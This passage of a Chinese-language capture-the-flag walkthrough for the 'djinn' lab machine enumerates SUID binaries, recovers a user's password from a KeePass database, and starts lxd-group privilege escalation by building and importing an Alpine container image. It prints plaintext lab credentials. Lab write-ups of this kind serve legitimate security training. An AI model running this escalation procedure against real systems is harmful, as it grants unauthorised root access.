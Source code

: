 在查看具备 SUID 权限的命令时，观察到一个特殊的命令：`/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic`，查看帮助文档知道这是linux容器工具。

```shell
www-data@djinn:/opt/1337/vuln$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/at
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chsh
/bin/fusermount
/bin/ntfs-3g
/bin/ping
/bin/su
/bin/umount
/bin/mount
```

不过只有 *root* 权限才能运行。此外也观察到存在：`nitish` 和`ugtan` 两个用户。之后在 `/var/backups/` 目录下发现存在`nitu.kdbx`数据库文件，下一步我们就需要解密该文件。

1. Kali安装 `keepass2`
2. 图形化运行 `keepass2`，并输入`creds.txt`文件里的密码 `7846A$56`，得到用户 `nitish` 的密码：`&HtMGd$LJB`

![1]({{ '/djinn_2/1.png' | prepend: site.url }})

### 提权

切换到 `nitish`账户下，查看 `sudo` 权限时发现该账户属 `lxd` 组。那么下一步就是 `lxd` 提权了，我们根据[这篇文章](https://www.hackingarticles.in/lxd-privilege-escalation/)进行操作即可。

1. Kali 的`root` 权限下构建镜像：

   ```shell
   git clone  https://github.com/saghul/lxd-alpine-builder.git
   cd lxd-alpine-builder
   ./build-alpine
   ```

2. 上传生成的镜像到靶机的 `/tmp`目录下

3. 导入镜像：

   ```shell
   lxc image import ./alpine-v3.14-x86_64-20211006_2326.tar.gz --alias myimage
   ```
